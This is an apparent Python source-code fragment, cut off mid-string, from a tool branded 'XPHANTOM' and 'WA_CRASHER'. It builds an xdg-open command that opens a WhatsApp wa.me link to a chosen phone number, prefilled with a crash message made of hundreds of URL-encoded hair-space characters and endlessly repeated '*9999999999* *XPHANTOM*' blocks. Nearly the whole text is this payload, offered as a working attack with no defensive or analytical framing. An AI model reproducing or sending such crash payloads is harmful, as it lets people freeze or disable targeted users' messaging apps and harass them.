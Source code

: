 		link = (f"""xdg-open
https://wa.me/{combnum}/?text=XPHANTOM%20%F0%9F%92%A3%20TeaM%20XPH4N70M%F0%9F%92%A3%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%20%E2%80%8A%0A%F0%9F%98%88Follow%20Me%20On%20Insta%20%40XPHANTOM_PH4N70M%F0%9F%A4%A3%0A%F0%9F%94%A5WA_CRASHER%201%20WA_CRASH%20%F0%9F%98%88%0A*NULL%0A*9999999999*%20*X*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*XPHANTOM%20CRATER%20MR%20PH4N70M%20X%C2%B2*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A%F0%9F%93%8CBY%E2%80%A2MR%E2%80%A2KILLER-XPHANTOM%F0%9F%92%A3%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%20*XPHANTOM*%20*9999999999*%0A*8888888888*%20*XPHANTOM*%20*8888888888*%0A*9999999999*%2